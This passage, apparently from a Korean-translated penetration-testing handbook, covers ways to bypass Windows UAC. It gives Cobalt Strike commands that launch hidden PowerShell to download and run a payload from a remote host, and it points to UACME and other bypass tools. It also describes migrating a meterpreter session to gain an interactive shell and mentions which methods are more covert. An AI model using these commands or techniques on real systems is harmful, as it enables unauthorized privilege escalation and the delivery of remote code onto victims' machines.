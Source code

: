 코발트 스트라이크 기술은 UAC가 최대 보안 수준으로 설정되어 있지 않을 때만 작동합니다.
```bash
# UAC bypass via token duplication
elevate uac-token-duplication [listener_name]
# UAC bypass via service
elevate svc-exe [listener_name]

# Bypass UAC with Token Duplication
runasadmin uac-token-duplication powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
# Bypass UAC with CMSTPLUA COM interface
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```
**Empire**와 **Metasploit**는 **UAC**를 **우회**하기 위한 여러 모듈을 가지고 있습니다.

### KRBUACBypass

문서 및 도구는 [https://github.com/wh0amitz/KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)에서 확인할 수 있습니다.

### UAC 우회 익스플로잇

[**UACME**](https://github.com/hfiref0x/UACME)는 여러 UAC 우회 익스플로잇의 **컴파일**입니다. **Visual Studio 또는 msbuild를 사용하여 UACME를 컴파일해야** 한다는 점에 유의하세요. 컴파일은 여러 실행 파일을 생성합니다(예: `Source\Akagi\outout\x64\Debug\Akagi.exe`), **어떤 것이 필요한지 알아야** 합니다.\
일부 우회는 **다른 프로그램을 알림**하여 **사용자**에게 무언가가 발생하고 있음을 **알릴 수** 있으므로 **주의해야** 합니다.

UACME는 각 기술이 작동하기 시작한 **빌드 버전**을 가지고 있습니다. 귀하의 버전에 영향을 미치는 기술을 검색할 수 있습니다:
```
PS C:\> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```
Also, using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page you get the Windows release `1607` from the build versions.

#### More UAC bypass

**모든** 기술은 AUC를 우회하기 위해 **완전한 대화형 셸**을 **필요로** 합니다 (일반적인 nc.exe 셸은 충분하지 않습니다).

**meterpreter** 세션을 사용하여 얻을 수 있습니다. **Session** 값이 **1**인 **프로세스**로 마이그레이션하세요:

![](<../../images/image (863).png>)

(_explorer.exe_는 작동해야 합니다)

### UAC Bypass with GUI

**GUI에 접근할 수 있다면 UAC 프롬프트가 나타날 때 그냥 수락하면 됩니다**, 우회할 필요가 없습니다. 따라서 GUI에 접근하면 UAC를 우회할 수 있습니다.

게다가, 누군가가 사용 중인 GUI 세션을 얻으면 (잠재적으로 RDP를 통해) **관리자로 실행되는 몇 가지 도구가 있을 수 있습니다**. 여기서 **cmd**를 예를 들어 **관리자**로 직접 실행할 수 있습니다. UAC에 의해 다시 프롬프트되지 않습니다, [**https://github.com/oski02/UAC-GUI-Bypass-appverif**](https://github.com/oski02/UAC-GUI-Bypass-appverif)와 같은 도구를 사용할 수 있습니다. 이는 좀 더 **은밀할 수 있습니다**.
